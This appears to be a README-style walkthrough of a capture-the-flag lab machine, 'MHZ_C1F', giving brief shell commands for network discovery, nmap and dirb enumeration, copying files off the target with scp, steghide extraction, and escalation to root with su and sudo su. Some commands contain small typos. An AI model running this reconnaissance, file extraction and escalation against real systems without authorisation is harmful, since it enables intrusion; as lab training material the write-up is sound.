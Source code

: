 # HackTheBox-MHZ_C1F
CTF’s are a great way to sharpen your skillsets. As a security enthusiast, this is probably the best way to get some hands-on practice that will help gain perspective on how to exploit a vulnerability and how as an infosec professional we will eliminate that risk or guard against it.

## Penetration Testing Methodology

    Network Discovery and Scanning
     -Using Netdiscover
     -Using Nmap
    Enumeration
     -Directory Bruteforce using dirb
    System Exploration
    Data Exfiltration
     -Using SCP
    Steganography
     -Using Steghide
    Privilege Escalation

### Network Discovery
```bash
sudo netdiscover
```
#### Network scanning 
Do a recon of the open ports and services using nmap
```bash
nmap -A <ip_address>
```
## Enumeration
Perform a website fuzzing or enumeration using dirb
```bash
dirb http://<ip_address>/ -X.txt
```
## System exploration
Navigate through the system after performing ssh into the system using the first flag found during enumeration
``` bash
ls
cat user.txt
cd /home
ls
```
## Data exfiltration
Download the data from the target system using scp 
```bash
 scp first_stage@192.168.43.174:/home/mhz_c1f/Paintings/* .
```

## Steganography
Extract the hidden data from the paintings using Steghide
``` bash
steghide extract -sf spinning/ the/ wool.jpeg
cat remb2.txt
```

## Privilege Escalation
Perform ssh into the target machine and switch user to gain root access of the system and find the final flag.
```bash
su mhz_cif
id
sudo su
cd /root
ls
ls –la
cat .root.txt
```


